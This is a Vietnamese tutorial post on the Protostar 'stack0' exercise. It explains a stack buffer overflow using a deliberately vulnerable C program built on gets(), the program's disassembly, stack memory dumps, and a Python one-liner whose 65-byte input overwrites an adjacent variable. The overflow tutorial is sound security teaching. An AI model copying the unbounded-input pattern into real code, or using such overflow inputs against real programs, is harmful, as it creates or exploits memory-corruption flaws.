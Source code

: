 ```yaml
---
layout: post
author: syncer
---
```


# stack0

Bài này hướng dẫn các bạn cơ bản về stack overflow. Nếu bạn muốn thử, có thể xem qua bài [Setup](./setup.html) để biết thêm về cách thiết lập môi trường.
Sau đây là source code của chương trình stack0:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Khi đọc qua source code và cả asm của `main`, hãy lưu ý nhưng điều sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

Từ 2 lưu ý trên, ta thấy được biến `buffer` và `modified` nằm kề nhau.
2 biến này sẽ chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của biến `buffer` được người dùng quyết định thông qua hàm `gets`.
Stack overflow sẽ xảy ra khi người dùng nhập giá trị cho `buffer` nhưng lại vượt quá độ dài 64 byte của biến đó.
Khi đó, phần dư sẽ được lưu đè lên vùng bộ nhớ kế tiếp.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048469</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048450</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804845b</span>      <span style="color:orangered">0x00000000</span>
</pre>

Như vậy chỉ cần nhập chuỗi có độ dài ít nhất 65 byte thì giá trị của `modified` sẽ được thay đổi.
Sau đây là một ví dụ. Lưu ý, ở đây mình dùng file `input.txt` để lưu giá trị nhập vào.

```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
stack0 < input.txt
```

Phần chuỗi `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888"` sẽ chiếm hết 64 byte của `buffer`. `"x"`, tương đương `0x78` sẽ được dành cho `modified`.
Thay đổi trên bộ nhớ có thể thấy được như sau:
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
user@protostar:~$ stack0 < input.txt
you have changed the 'modified' variable
```
[back](./)
